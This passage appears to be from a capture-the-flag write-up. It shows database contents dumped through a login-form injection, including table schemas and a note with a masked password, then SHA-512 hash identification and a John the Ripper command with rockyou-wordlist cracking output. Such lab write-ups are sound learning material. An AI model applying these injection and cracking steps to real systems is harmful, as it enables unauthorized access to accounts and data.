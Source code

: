 ```
    "CREATE TABLE \"users\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"username\"\tTEXT NOT NULL UNIQUE,\n\t\"password\"\tTEXT NOT NULL UNIQUE,\n\tPRIMARY KEY(\"id\" AUTOINCREMENT)\n)"
  ]
]

"The username or password passed are not correct."

[
  [
    null, 
    "CREATE TABLE \"notes\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"user_id\"\tINTEGER,\n\t\"note_sql\"\tINTEGER,\n\t\"notes\"\tTEXT,\n\tPRIMARY KEY(\"id\")\n)"
  ]
]

"The username or password passed are not correct."

[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is ***************************************************************************************************************************\n"
  ]
]

"The username or password passed are not correct."
```
Success! This info will help in the following two tasks.

## Task 5

### Hash-Identifier

```
Possible Hashs:
[+] SHA-512
[+] Whirlpool
```

### John the ripper

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha512 hash.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (?)
1g 0:00:00:00 DONE (2021-04-30 23:28) 10.00g/s 1884Kp/s 1884Kc/s 1884KC/s joan08..beckyg
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We have successfully managed to crack it. One of the reasons for using john instead of hashcat is because I'm running a VM, and as john is cpu extensive, it's preferable to do so.
